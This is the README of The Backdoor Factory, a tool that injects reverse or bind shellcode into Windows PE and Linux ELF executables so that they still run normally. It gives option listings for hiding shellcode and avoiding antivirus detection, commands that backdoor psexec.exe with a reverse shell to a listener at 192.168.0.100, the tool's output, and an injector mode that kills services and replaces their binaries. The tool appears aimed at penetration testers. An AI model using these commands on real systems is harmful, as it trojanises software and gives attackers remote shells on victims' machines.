 ##The Backdoor Factory
For security professionals and researchers only.

Many thanks to Ryan O'neill --ryan 'at' codeslum <d ot> org--
Without him, I would still be trying to do stupid things 
with the elf format.
Also thanks to Silvio Cesare with his 1998 paper 
(http://vxheaven.org/lib/vsc01.html) which these ELF patching
techniques are based on.

I learned a ton about the ELF format.  The first fustrating thing I noticed were the lack of code caves in debian builds.  However, you don't really need them. See the link above, circa 1998.  The look and feel to the user will be no different for ELF binaries, just point the tool at them as you have for PE bins.

From DerbyCon: 
    
    Video: http://www.youtube.com/watch?v=jXLb2RNX5xs

    Injection Module Demo: http://www.youtube.com/watch?v=04aJAex2o3U

    Slides: http://www.slideshare.net/midnite_runr/patching-windows-executables-with-the-backdoor-factory

Injects shellcode into win32/64 PE and linux32/64 ELF Files, to continue normal file execution (if the shellcode supports it), by patching the exe/dll directly.

Some executables have built in protections, as such this will not work on all binaries.  It is advisable that you test target binaries before deploying them to clients or using them in exercises.

Recently tested on all 32/64bit Sysinternal tools and Chrome browser.
---

Usage: ./backdoor.py -h

Usage: backdoor.py [options]

Options:
  -h, --help            show this help message and exit
  
  -f FILE, --file=FILE  File to backdoor
  
  -s SHELL, --shell=SHELL
                        Payloads that are available for use.
  
  -H HOST, --hostip=HOST
                        IP of the C2 for reverse connections
  
  -P PORT, --port=PORT  The port to either connect back to for reverse shells
                        or to listen on for bind shells
  
  -J, --cave_jumping    Select this options if you want to use code cave
                        jumping to further hide your shellcode in the binary.
  
  -a, --add_new_section
                        Mandating that a new section be added to the exe
                        (better success) but less av avoidance
  
  -U SUPPLIED_SHELLCODE, --user_shellcode=SUPPLIED_SHELLCODE
                        User supplied shellcode, make sure that it matches the
                        architecture that you are targeting.
  
  -c, --cave            The cave flag will find code caves that can be used
                        for stashing shellcode. This will print to all the
                        code caves of a specific size.The -l flag can be use
                        with this setting.
  
  -l SHELL_LEN, --shell_length=SHELL_LEN
                        For use with -c to help find code caves of different
                        sizes
  
  -o OUTPUT, --output-file=OUTPUT
                        The backdoor output file
  
  -n NSECTION, --section=NSECTION
                        New section name must be less than seven characters
  
  -d DIR, --directory=DIR
                        This is the location of the files that you want to
                        backdoor. You can make a directory of file backdooring
                        faster by forcing the attaching of a codecave to the
                        exe by using the -a setting.
  
  -w, --change_access   This flag changes the section that houses the codecave
                        to RWE. Sometimes this is necessary. Enabled by
                        default. If disabled, the backdoor may fail.
  
  -i, --injector        This command turns the backdoor factory in a hunt and
                        shellcode inject type of mechinism. Edit the target
                        settings in the injector module.
  
  -u SUFFIX, --suffix=SUFFIX
                        For use with injector, places a suffix on the original
                        file for easy recovery
  
  -D, --delete_original
                        For use with injector module.  This command deletes
                        the original file.  Not for use in production systems.
                        *Author not responsible for stupid uses.*
  
  -O DISK_OFFSET, --disk_offset=DISK_OFFSET
                        Starting point on disk offset, in bytes. Some authors
                        want to obfuscate their on disk offset to avoid
                        reverse engineering, if you find one of those files
                        use this flag, after you find the offset.
  
  -S, --support_check   To determine if the file is supported by BDF prior to
                        backdooring the file. For use by itself or with
                        verbose. This check happens automatically if the
                        backdooring is attempted.
  
  -q, --no_banner       Kills the banner.
  
  -v, --verbose         For debug information output.


---

Features:

-After making a copy of the target file, the file copy will be patched directly.

-Finding all codecaves in an EXE/DLL.

-Injecting modified reverse/bind shells that allow continued execution after connection to the attacker.

-Modifying the PE/COFF header to add an additional section for all win32 executables/dlls, including those with an import table.

-Using the existing shellcode options, the ability to select PORT and HOST as connection options

-The ability to backdoor a directory of executables/dlls

---------------------------------------------

Sample Usage:
---

###Backdoor a exe/dll using an existing code cave:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp 

[*] In the backdoor module

[*] Checking if binary is supported

[*] Gathering file info

[*] Reading win32 entry instructions

[*] Looking for and setting selected shellcode

[*] Creating win32 resume execution stub

[*] Looking for caves that will fit the minimum shellcode length of 402

[*] All caves lengths:  (402,)

-############################################################

The following caves can be used to inject code and possibly

continue execution.

**Don't like what you see? Use jump, single, or append.**

-############################################################

[*] Cave 1 length as int: 402

[*] Available caves:

1. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d2d5 End: 0x2d4d0; Cave Size: 507

2. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d4e9 End: 0x2d6d5; Cave Size: 492

3. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d6e3 End: 0x2d8d8; Cave Size: 501

4. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2d8f1 End: 0x2dadd; Cave Size: 492

5. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dae7 End: 0x2dce0; Cave Size: 505

6. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2dcf3 End: 0x2dee5; Cave Size: 498

7. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2defb End: 0x2e0ea; Cave Size: 495

8. Section Name: .data; Section Begin: 0x2d200 End: 0x2f200; Cave begin: 0x2e161 End: 0x2e390; Cave Size: 559

9. Section Name: .rsrc; Section Begin: 0x2f200 End: 0x5bc00; Cave begin: 0x58a39 End: 0x58c68; Cave Size: 559

**************************************************

[!] Enter your selection: 5

Using selection: 5

[*] Changing Section Flags

[*] Patching initial entry instructions

[*] Creating win32 resume execution stub

[*] psexec.exe backdooring complete

File psexec.exe is in the 'backdoored' directory

---

###Backdoor an exe/dll by adding a code section:

./backdoor.py -f psexec.exe -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a 

Adding a new section to the exe/dll for shellcode injection

psexec.exe backdooring complete

File bd.psexec.exe is in current directory

---
###Backdoor a directory of exes:
./backdoor.py -d test/ -i 192.168.0.100 -p 8080 -s reverse_shell_tcp -a


...output too long for README...

---
###Hunt and backdoor: Injector
The injector module will look for target executables to backdoor on disk.  It will check to see if you have identified the target as a service, check to see if the process is running, kill the process and/or service, inject the executable with the shellcode, save the original file to either file.exe.old or another suffix of choice, and attempt to restart the process or service.  
Edit the python dictionary "list_of_targets" in the 'injector' module for targets of your choosing.

./backdoor.py -i -H 192.168.0.100 -P 8080 -s reverse_shell_tcp -a -u .moocowwow 
